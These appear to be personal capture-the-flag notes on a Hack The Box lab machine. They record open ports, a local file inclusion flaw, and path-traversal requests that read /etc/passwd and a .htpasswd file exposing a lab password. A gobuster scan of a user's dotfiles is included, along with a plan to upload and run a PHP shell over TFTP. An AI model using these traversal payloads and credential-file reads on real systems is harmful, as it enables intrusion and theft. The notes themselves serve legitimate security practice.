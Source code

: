 - Open ports
	- TCP
	  
	  ```
	  80/tcp open  http
	  ```
	- UDP
	  id:: 655238b7-09f8-454b-ba4a-40a2d4b29455
	  
	  ```
	  68/udp open|filtered dhcpc
	  69/udp open|filtered tftp
	  ```
- Finding
	- LFI at `http://10.129.38.202/?file=`
	  id:: 655238e3-68b6-42e6-9ec4-6edf9f86c35e
	- OS usernames
	  *Fetched from `http://10.129.38.202/?file=../../../../../../../../etc/passwd`*
	  ```
	  # Only list the most interesting ones
	  root
	  [...]
	  backup
	  mike
	  tftp
	  [...]
	  ```
	- CANCELED Tested RFI but didn't work
	- Try to use `gobuster` to search for known dotfiles in `/home/mike`
	  *Used this dotfiles oriented [wordlist](https://github.com/Karanxa/Bug-Bounty-Wordlists/blob/main/dotfiles.txt)*.
	  ```bash
	  > gobuster fuzz -u "http://10.129.38.202/?file=../../../../../../../../home/mike/FUZZ" -w wordlist-dotfiles.txt --exclude-length 0
	  [...]
	  Found: [Status=200] [Length=15] [Word=.bash_profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_profile
	  Found: [Status=200] [Length=220] [Word=.bash_logout] http://10.129.38.202/?file=../../../../../../../../home/mike/.bash_logout
	  Found: [Status=200] [Length=3771] [Word=.bashrc] http://10.129.38.202/?file=../../../../../../../../home/mike/.bashrc
	  Found: [Status=200] [Length=807] [Word=.profile] http://10.129.38.202/?file=../../../../../../../../home/mike/.profile
	  ```
	  No interesting files found.
	- Found an interesting `.htpasswd` file
	  id:: 65523a47-5070-40a1-af56-9b48b9b351b4
	  
	  ```bash
	  curl "http://10.129.38.202/?file=../../../../../../../../var/www/html/.htpasswd"
	  mike:Sheffield19
	  ```
	  ===TODO===: Search for a wordlist optimized for webservers file and use it with `gobuster`.
	  #+BEGIN_CAUTION
	  mike:Sheffield19
	  #+END_CAUTION
	  
	  #+BEGIN_TIP
	  I now have the username and password coming from a `.htpasswd` file. Maybe `mike` reuse the same password for his OS user.
	  #+END_TIP
	- #+BEGIN_TIP
	  I can upload files via [TFTP](logseq://graph/HTB-Notes?block-id=655238b7-09f8-454b-ba4a-40a2d4b29455) and execute php file via the [LFI](logseq://graph/HTB-Notes?block-id=655238e3-68b6-42e6-9ec4-6edf9f86c35e).
	  #+END_TIP
		- Upload a php shell via TFTP.
		- Execute the php shell with the LFI.
-